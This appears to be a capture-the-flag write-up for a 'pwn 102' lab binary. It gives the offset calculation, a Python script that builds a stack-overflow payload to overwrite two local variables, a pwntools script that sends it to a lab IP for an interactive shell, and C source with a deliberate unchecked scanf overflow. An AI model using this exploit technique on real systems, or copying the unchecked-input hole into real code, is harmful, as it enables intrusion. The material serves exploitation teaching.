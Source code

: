 # Challenge 2

![](attachments/28a07fafb46d92a828fe7ab5faec1467.png)

![](attachments/940375781bdc22aeed3e2266a9a7f174.png)

test input - 
`$ "A" * 90 + string.ascii_lowercase + string.ascii_uppercase`
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`

With this we end up with `rbp-0x4 == 0x76757473` aka "vuts" (coming from "stuv")
putting our actual buffer size at 108 characters! (`0x70 - 0x4`)
![](attachments/5eea74533f3d786f946b9cb50bdd32c5.png)

We can pass null-bytes `\x00` cause scanf doesnt seem to read strings ending at that but instead until a newline happens
## Payload

```python
arg_a = [0xc0, 0xff, 0x33]
arg_b = [0xc0, 0xd3]

BUFFSIZE = 0x70 - 0x4 - 0x4
BUFFER = "A" * BUFFSIZE
NOP = 0x00.to_bytes(1, 'little')

with open("payload.txt", 'wb+') as f:
    f.write(bytes(BUFFER, 'ascii'))

    f.write(0xc0d3.to_bytes(2, 'little'))
    
    f.write(NOP)
    f.write(NOP)

    f.write(0xc0ff33.to_bytes(4, 'little'))

print("Done")

```

Running it - remotely
```python
from pwn import *
from pwnlib.util.packing import p32

r = remote('10.10.193.184', 9002)

WAIT = "Am I right? "

r.recvuntil(WAIT)

with open("payload.txt", 'rb') as f:
    PAYLOAD = f.readline()

print(PAYLOAD)
r.sendline(PAYLOAD)

r.interactive()
```

Local usage example output:

![](attachments/0f3139e15ab9299ac8b88aac823194b2.png)

Source;
```c
#include <stdio.h>
#include <stdlib.h>

void setup(){
    setvbuf(stdout,(char *)0x0,2,0);
    setvbuf(stderr,(char *)0x0,2,0);
    setvbuf(stdin,(char *)0x0,2,0);
}

void banner(){
    puts(
"       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐\n"
"        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ \n"
"        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘\n"
"                 pwn 102          \n"
    );
}

void main(){
    setup();
    banner();
    char is_this_right[100];
    int need_what = 0xBADF00D;
    int to_do = 0xFEE1DEAD;

    printf("I need %x to %x\nAm I right? ",need_what,to_do);
    scanf("%s",&is_this_right);

    if (need_what == 0xc0ff33 && to_do == 0xc0d3){
        printf("Yes, I need %x to %x\n",need_what,to_do);
        system("/bin/sh");
    }
    else{
        printf("I'm feeling dead, coz you said I need bad food :(\n");
        exit(1337);
    }
}

```
